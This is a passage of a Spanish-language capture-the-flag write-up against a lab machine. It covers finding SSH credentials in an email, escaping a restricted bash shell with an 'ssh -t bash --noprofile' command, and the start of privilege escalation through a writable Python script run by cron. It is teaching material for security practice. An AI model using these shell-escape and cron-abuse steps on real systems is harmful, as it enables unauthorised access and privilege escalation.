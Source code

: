 ```bash
Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

Ahora tenemos las credenciales de mindy.

# Explotación
Con las credenciales encontradas, podemos conectarnos por SSH como mindy pero, nos vamos a encontrar dentro de rbash por lo que tendremos que "escapar de la carcel".

Para poder escapar de rbash, podemos conectarnos a SSH de este modo.

```bash
$ ssh mindy@10.10.10.51  -t "bash --noprofile"

${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
```

# Post explotación
## Enumeración
### Sudo

### Linpeas

```bash
root       393  0.6  6.6 435508 33612 ?        Sl   03:23   0:01 /usr/lib/jvm/java-8-openjdk-i386//bin/java -Djava.ext.dirs=/opt/james-2.3.2/lib:/opt/james-2.3.2/tools/lib -Djava.security.manager -Djava.security.policy=jar:file:/opt/james-2.3.2/bin/phoenix-loader.jar!/META-INF/java.policy -Dnetworkaddress.cache.ttl=300 -Dphoenix.home=/opt/james-2.3.2 -Djava.io.tmpdir=/opt/james-2.3.2/temp -jar /opt/james-2.3.2/bin/phoenix-loader.jar
```

## Escala de privilegios

Vamos a revisar el directorio opt/james-2.3.2/

Dentro del directorio, encontramos una aplicación con varios scripts y justo en el directorio pardre /opt/ nos encontramos otros script llamado tmp.py sobre el cual tenemos permisos de escritura. Este script debe estar siendo llamado por una tarea Cron yaque los scripts de enumeración que había guardado en /tmp se me han borrado y, este es el contenido del script.
